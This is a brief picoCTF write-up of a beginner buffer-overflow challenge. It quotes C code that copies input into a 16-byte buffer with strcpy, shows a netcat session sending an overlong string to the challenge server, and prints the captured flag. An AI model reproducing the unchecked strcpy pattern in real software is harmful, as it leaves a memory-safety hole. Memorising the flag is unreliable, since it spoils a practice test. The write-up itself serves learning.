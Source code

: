 open the source code provided <br>

```py
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
strccpy() copies the input into buf2<br>
buf2 is of 16 char<br>
if user inputs anything that is more than 16 characters, it might cause error....<br>
let's try giving input that has more than 16 characters 

```
adarshreddy-picoctf@webshell:~$ nc saturn.picoctf.net 55984
Input: 12313213213221322131321321321313
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

```

and it gave the flag 
` picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d} `
